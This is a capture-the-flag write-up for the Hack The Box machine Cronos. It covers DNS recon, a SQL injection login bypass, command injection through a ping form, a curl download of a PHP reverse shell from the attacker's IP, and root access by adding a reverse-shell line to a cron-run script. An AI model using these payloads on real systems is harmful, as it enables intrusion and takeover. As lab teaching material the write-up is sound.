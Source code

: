# Cronos [HTB](https://app.hackthebox.com/machines/11)
![cronos-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/cronos-01.png)


## Recon 

I start by adding the target to my `/etc/hosts` file, followed by an `nmap` scan:

```bash
nmap -sC -sV -A -p- cronos.htb -oN nmap.result
```

![namp-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ A DNS server on port 53. 
+ An Apache server on port 80.

Let's start with the DNS server to see if we can query some useful information, then we can take a look at the Apache server.

### DNS port 53

Lets try to query for all the entries that the server is willing to disclose:

```bash
dig any cronos.htb @cronos.htb
```

![any-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/any-03.png)

We got two new domains, `admin.cronos.htb` and `ns1.cronos.htb`. Im gussing the `admin` subdomain is tied to the Apache server. 

I also tried to pull off a zone transfer with:

```bash
dig axfr @cronos.htb
```

This failed, so i added the `admin.cronos.htb` subdomain to `/etc/hosts` and moved on to the Apcache server. 


### Apache Port 80


Lets navigate towards the main site at `http://cronos.htb/` 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/site-04.png)

The main page hosts 5 links, all related to the `Laravel` web framework. I found the first link to be the most useful in getting a high-level overview of `Laravel`,  here is the bullet-points of the info.

+ `Laravel` is an open source PHP based framework, while they also recommend to download `Node` and `NPM`. 

+ There is an internal development server running on `http://localhost:8000`:

![development-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/development-05.png)

Worth to keep that in mind for the future in case we ever need it. 

+ An `.env` config file located at the root of the application should hold sensetive information including encryption keys for cookies and possibly credentials.  

![env-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/env-06.png)

I've tried to look for this file in the root of the site, wasnt able to find it. But lets keep an eye on that. 

The last link on the main site redirected me to `Laravel`'s Github page where we can find the source code. This is nice, and i read through it a bit, but it seems that the directory structure is different on our target. I tried to use directory treversal tricks to find juicy files but without much success.

So i decided to look online for some hacking tricks on `Laravel`, i found a few interesting articals like [this](https://labs.withsecure.com/publications/laravel-cookie-forgery-decryption-and-rce) one and [this](https://www.ambionics.io/blog/laravel-debug-rce) one, that describe more advanced attacks againts the EAS CBC chiper mode, and some serialized attacks againts PHP. 

Before delving into these sorts of attacks i decided to take a look at the `admin.cronos.htb` subdomain.

## admin.cronos.htb


If we open our browser and navigate towards `http://admin.cronos.htb` we are greeted to a login page:

![login-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/login-07.png)

At first i tried to brute force this page using `hydra`:

```bash
ydra -l admin -P  /usr/share/wordlists/rockyou.txt admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:invalid"
```

While this was going i decided to poke around for SQL injection. At first i tried to generate an error based repsonse, but this didnt work for me. So instead i focused on Boolean payloads when i found that this one works:

```sql
' OR NOT 1120=-1120-- tGvo
```

I input this as the username, and the password i just type `admin`. This gets me past the login page:

![logged-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/logged-08.png)

Looks like this page is running a command? lets look at the source code:

![source-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/source-09.png)


So we can either run `traceroute` or `ping`, and we can supply to which host. All of this info is getting passed via a POST form, lets intercept that with Burp:

![initial-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/initial-10.png)

Lets try to modify these parameters to run something like `ls .`

![mod-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/mod-11.png)

It works:

![rce-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/rce-12.png)


This `config.php` looks interesting, lets see whats inside:

![empty-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/empty-13.png)

Looks like its empty, but the server renders it anyway, lets try to overwrite this file with a PHP reverse shell and execute it via the URL. I use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s reverse shell. 

After you download the file make sure to update your IP and port info:

![update-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/update-14.png)

Then rename the file to `config.php`, and start a python web server with:

```bash
python3 -m http.server 80
```

Now we can transfer this over to the target with the following request:

![upload-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/upload-15.png)

```bash
command=curl&host=http://10.10.14.61+-o+config.php
```

Lets start the listener with:

```bash
rlwrap nc -lnvp 443
```

Now when we open `http://admin.cronos.htb/config.php` the browser freezes, and we get a connection as the `www-data` user:

![shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/shell-16.png)


## Privilege Escalation

First thing i do when i land on the machine is upgrade to a TTY shell with:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After that i started to look around the system, searching for unusual files, or programs, though i couldnt find something really interesting. 

Next i decided to hunt down for SUID binaries with:

```bash
find / -perm -4000 2>/dev/null
```

Again, nothing useful came up here. 

After that i took a look at the running processes with:

```bash
ps auxww
```

Nothing unusual. So i decided to look at `/etc/crontab` and this is where i found something intersting:

![crontab-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/crontab-17.png)

 
In essence,  root runs the `/var/www/laravel/aristan` file first and formost, lets take a look at this file:

![aristal-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/aristan-18.png)

A simple PHP script, so if we add a reverse shell line right at the top, wouldn't that give us a shell as root regardless of what should have happened next?  

I copy the file over to my kali machine where I can comfortably edit the file with `Vi`. Then i add the following two lines at the top:

```php
$sock=fsockopen("10.10.14.61", 443);
exec("/bin/bash -i <&3 >&3 2>&3");
```

![add-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/add-19.png)

I rename the orginal one on the target and transfer my variant with a python server. 


I then start my listener and get a connection one the cron-job is executed:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Cronos/img/root-20.png)
